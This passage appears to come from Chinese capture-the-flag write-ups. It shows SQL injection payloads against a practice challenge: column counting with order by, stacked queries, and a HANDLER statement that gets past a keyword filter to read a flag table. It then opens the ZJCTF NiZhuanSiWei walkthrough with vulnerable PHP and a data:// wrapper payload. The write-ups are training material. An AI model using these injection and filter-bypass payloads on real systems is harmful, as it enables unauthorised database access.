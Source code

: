 >1'order by 3#



>1'order by 2#
发现字段数为2 
查FlagHere数据表的字段名



>1';show columns from words #

查words的字段名

输入rename发现有过滤
```php
return preg_match("\set|prepare|er|rename|select|update|delete|drop|insert|where|\.\i",$inject);
```
把rename和er、select都过滤了
handler命令查询规则

>handler table_name open;handler table_name read first;handler table_name close;
___
>handler table_name open;handler table_name read next;handler table_name close;

如何理解？

>首先打开数据库，开始读它第一行数据，读取成功后进行关闭操作。
首先打开数据库，开始循环读取，读取成功后进行关闭操作。

构造payload

>1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;
1';handler FlagHere open;handler FlagHere read next;handler FlagHere close;


## [ZJCTF 2019]NiZhuanSiWei

>做题人：郑林均
>url链接：[NiZhuanSiWei](https:\www.nssctf.cn\problem\22)
>知识点：php伪协议

```php
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."<\h1><\br>";
    if(preg_match("\flag\",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  \useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```
分析代码可知首先我们要利用伪协议传入welcome to the zjctf到text上，所以构造
```
!?text=data:\text\plain,welcome to the zjctf
```
来到下个页面
